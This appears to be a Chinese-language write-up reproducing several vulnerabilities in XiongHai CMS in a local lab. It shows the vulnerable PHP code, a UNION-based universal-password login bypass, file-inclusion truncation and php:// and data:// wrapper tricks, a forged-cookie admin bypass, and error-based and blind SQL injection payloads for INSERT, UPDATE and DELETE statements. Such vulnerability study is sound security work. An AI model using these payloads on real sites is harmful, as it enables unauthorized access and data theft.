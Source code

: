 ## 复现熊海CMS的各种漏洞

### 0x01 联合查询构造临时表绕过登录（万能密码）

#### 漏洞代码

```php
if ($login <> "") {
    $query = "SELECT * FROM manage WHERE user='$user'";
    $result = mysql_query($query) or die('SQL语句有误：' . mysql_error());
    $users = mysql_fetch_array($result);

    if (!mysql_num_rows($result)) {
        echo "<Script language=JavaScript>alert('抱歉，用户名或者密码错误。');history.back();</Script>";
        exit;
    } else {
        $passwords = $users['password'];
        if (md5($password) <> $passwords) {
            echo "<Script language=JavaScript>alert('抱歉，用户名或者密码错误。');history.back();</Script>";
            exit;
        }
```

![image-20210601124322550](C:\Users\King\AppData\Roaming\Typora\typora-user-images\image-20210601124322550.png)

第一个实验表确定了每个字段值的类型和表的字段数
第二个实验表验证了是否不需要真实存在值的查询也能直接用联合查询
第三个实验表确定了联合查询不会改变原表

**该漏洞简单来说就是 user处闭合单引号使用联合查询构造出一张含有我自定义字段值（主要是自定义了user和password字段）的临时表，因为闭合单引号or '1'='1可绕过user处的验证，同时，因为验证password的逻辑处于验证user之下，所以验证password处的代码获取到的密码的MD5是刚才构建的临时表中的我们自定义的MD5，这样的话，在登录框的密码填入临时表中MD5的原始值（本例为123）即可登录成功，相当于万能密码。**

下断点验证思路：

![image-20210601125144760](C:\Users\King\AppData\Roaming\Typora\typora-user-images\image-20210601125144760.png)

### 0x02 文件包含的利用姿势

#### 漏洞代码

```php
<?php
//单一入口模式
error_reporting(0); //关闭错误显示
$file=addslashes($_GET['r']); //接收文件名
$action=$file==''?'index':$file; //判断为空或者等于index
include('files/'.$action.'.php'); //载入相应文件
?>

//本地环境php 5.4.45，因为不能截断php所以只能包含任意的php文件
```

#### 1. 截断

##### 	%00截断：

```
php < 5.3.4
magic_quotes_gpc = off
```

##### 	路径长度截断：

```
php < 5.3.4 (php = 5.2.9、5.2.8 可行)
magic_quotes_gpc = off/on都行，无关。

Windows下目录最大长度为256字节，超出的部分会被丢弃
Linux下目录最大长度为4096字节，超出的部分会被丢弃
```

##### 	?、#、%20截断：

```
针对远程文件包含
allow_url_include = On
```

#### 2. 目录遍历../

```
根据目录层级写正确数量个”../“就可
如果能截断就是任意文件包含
不能截断就只能包含php文件
```

#### 附：伪协议读写

##### 	php://filter/read=convert.base64-encode/resource=文件名

```php
本案例中不可用：
include('files/'.$action.'.php');
如下案例中可用：
include($action.'.php');
不懂。
```

```php
data://text/plain,<?php phpinfo();?>
data://text/plain;base64,PD9waHAgcGhwaW5mbygpPz4=
可直接执行php代码
```

![image-20210601120442168](C:\Users\King\AppData\Roaming\Typora\typora-user-images\image-20210601120442168.png)

### 0x03 修改Cooike绕过登录验证

#### 漏洞代码

```php
checklogin.php
<?php
$user=$_COOKIE['user'];
if ($user==""){
header("Location: ?r=login");
exit;	
}
?>
```

没什么措施，直接在cookie中加一个user=admin即可绕过登录验证，

![image-20210601123326577](C:\Users\King\AppData\Roaming\Typora\typora-user-images\image-20210601123326577.png)

admin的功能文件都包含了这个可以被绕过的检查来做验证的，所以就拥有了admin权限。

### 0x04 多处的SQL注入

##### 	后台newcolumn.php处：

```php
$type=$_GET['type'];

$save=$_POST['save'];
$name=$_POST['name'];
$keywords=$_POST['keywords'];
$description=$_POST['description'];
$px=$_POST['px'];
$xs=$_POST['xs'];
...
$content=$_POST['content'];
...
...
if ($type==1){
	
$query = "INSERT INTO nav (
name,keywords,description,xs,px,link,type,content,date
) VALUES (
'$name','$keywords','$description','$xs','$px','pages','5','$content',now()
)";@mysql_query($query) or die('新增错误：'.mysql_error());
echo "<script>alert('亲爱的，一级单页已经成功添加。');location.href='?r=columnlist'</script>"; 
exit;
}

if ($type==2){
$query = "INSERT INTO navclass (
nav,name,keywords,description,xs,px,tuijian,date
) VALUES (
'2','$name','$keywords','$description','$xs','$px','$tuijian',now()
)";@mysql_query($query) or die('新增错误：'.mysql_error());

echo "<script>alert('亲爱的，二级分类已经成功添加。');location.href='?r=columnlist'</script>"; 
exit;
}
```

可以看到这里POST获取参数的代码未使用addslashes()函数过滤，所以可以在INSERT处的sql语句闭合单引号构造报错型注入，以if($type==2)下的为例：

![image-20210601143941033](C:\Users\King\AppData\Roaming\Typora\typora-user-images\image-20210601143941033.png)

mysql命令行中成功报错，在Web中构造payload：（如果对INSERT语句非常熟悉的话应该一下子就构造出来了，但是我不算熟悉，所以用mysql监视器配合着改了一会儿才构造出来，主要是末尾的闭合问题，**不知道为啥注释不掉？**）

```mysql
5','1' or extractvalue(1,concat(0x7e,(select(database())))) or '
```

![image-20210601144359675](C:\Users\King\AppData\Roaming\Typora\typora-user-images\image-20210601144359675.png)

phpstorm下断点查看payload的注入情况：

![image-20210601150549452](C:\Users\King\AppData\Roaming\Typora\typora-user-images\image-20210601150549452.png)

使用mysql监视器查看真正执行的sql语句：

![image-20210601144159996](C:\Users\King\AppData\Roaming\Typora\typora-user-images\image-20210601144159996.png)

而且因为出错了，其他数据也是没有插入到表的。最终结果：

![image-20210601144432876](C:\Users\King\AppData\Roaming\Typora\typora-user-images\image-20210601144432876.png)

##### 	顺便备一下UPDATE、DELETE的paylaod模型：

```mysql
update user set passowrd='Nicky' or updatexml(1,concat(0x7e,(version())),0) or '' where id=2 and username='Nervo';

delete from users where id=2 or updatexml(1,concat(0x7e,(version())),0) or '';
```

##### 后台commentlist.php处 和 columnlist.php处：

明显的DELETE注入，原因和利用方式和上边那个都差不多。区别是注入点在where之后，

并且测试发现，可以使用时间盲注且不会执行删除操作，布尔盲注会执行删除操作。

时间盲注可行：

![image-20210601153303302](C:\Users\King\AppData\Roaming\Typora\typora-user-images\image-20210601153303302.png)

布尔盲注会执行删除操作：

![image-20210601153414206](C:\Users\King\AppData\Roaming\Typora\typora-user-images\image-20210601153414206.png)

##### 后台editcolumn.php处：

明显的UPDATE注入，和DELETE是一样的。where之后和之前都可进行注入。

##### 还有一些联合注入，玩烂了的。不记了。

